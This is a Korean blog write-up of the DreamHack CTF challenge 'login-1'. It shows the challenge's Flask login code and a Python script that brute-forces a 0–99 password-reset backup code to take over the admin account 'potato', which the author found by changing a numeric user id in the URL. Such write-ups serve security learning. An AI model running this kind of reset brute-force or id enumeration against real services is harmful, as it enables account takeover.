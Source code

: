 ```yaml
---
layout: post
title: (DreamHack) login-1
date: 2021-06-01 05:24:00
tags: Security CTF
---
```


## 풀이
플래그를 얻기 위해서는 유저 레벨이 'admin'인 계정으로 로그인해야 한다.

```python
userLevel = {
    0 : 'guest',
    1 : 'admin'
}
MAXRESETCOUNT = 5

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

@app.route('/admin')
def admin():
    if session and (session['level'] == userLevel[1]):
        return FLAG

    return "Only Admin !"
```


userid를 클릭하면 아래와 같은 화면이 나온다. 이때 url에 있는 17이란 숫자가 user에 부여되는 특정 id라고 가정하여 해당 숫자를 변경해 보았다.
![image](https://user-images.githubusercontent.com/24788751/120293279-0cf91980-c300-11eb-9c7f-aa502b0a3816.png)

이때 potato라는 사용자의 유저 레벨이 1인 것을 확인하였다.

![admin1](https://user-images.githubusercontent.com/24788751/120293014-cf948c00-c2ff-11eb-9c89-ab0a6e23ffae.PNG)

비밀번호 찾기를 통해 비밀번호를 수정하도록 한다.

```python
def makeBackupcode():
    return random.randrange(100)

@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'GET':
        return render_template('forgot.html')
    else:
        userid = request.form.get("userid")
        newpassword = request.form.get("newpassword")
        backupCode = request.form.get("backupCode", type=int)

        conn = get_db()
        cur = conn.cursor()
        user = cur.execute('SELECT * FROM user WHERE id = ?', (userid,)).fetchone()
        if user:
            # security for brute force Attack.
            time.sleep(1)

            if user['resetCount'] == MAXRESETCOUNT:
                return "<script>alert('reset Count Exceed.');history.back(-1);</script>"
            
            if user['backupCode'] == backupCode:
                newbackupCode = makeBackupcode()
                updateSQL = "UPDATE user set pw = ?, backupCode = ?, resetCount = 0 where idx = ?"
                cur.execute(updateSQL, (hashlib.sha256(newpassword.encode()).hexdigest(), newbackupCode, str(user['idx'])))
                msg = f"<b>Password Change Success.</b><br/>New BackupCode : {newbackupCode}"

            else:
                updateSQL = "UPDATE user set resetCount = resetCount+1 where idx = ?"
                cur.execute(updateSQL, (str(user['idx'])))
                msg = f"Wrong BackupCode !<br/><b>Left Count : </b> {(MAXRESETCOUNT-1)-user['resetCount']}"
            
            conn.commit()
            return render_template("index.html", msg=msg)

        return "<script>alert('User Not Found.');history.back(-1);</script>";
```

백업 코드는 0이상 100미만의 수가 생성되기 때문에 브루트포스 방식을 통해 백업코드를 찾고 원하는 비밀번호로 변경할 수 있도록 하였다.

```python
import json
import requests

u = "http://host1.dreamhack.games:17892/forgot_password"
userid = "potato"

for i in range(0, 100):
    data = {'userid': "potato", 'backupCode': i, 'newpassword':"aaa"}
    res = requests.post(u, data=data)
    if res.status_code == 200:
        print(i, " was backup code")
        print(res.text)
    else: # 500
        print("-")
```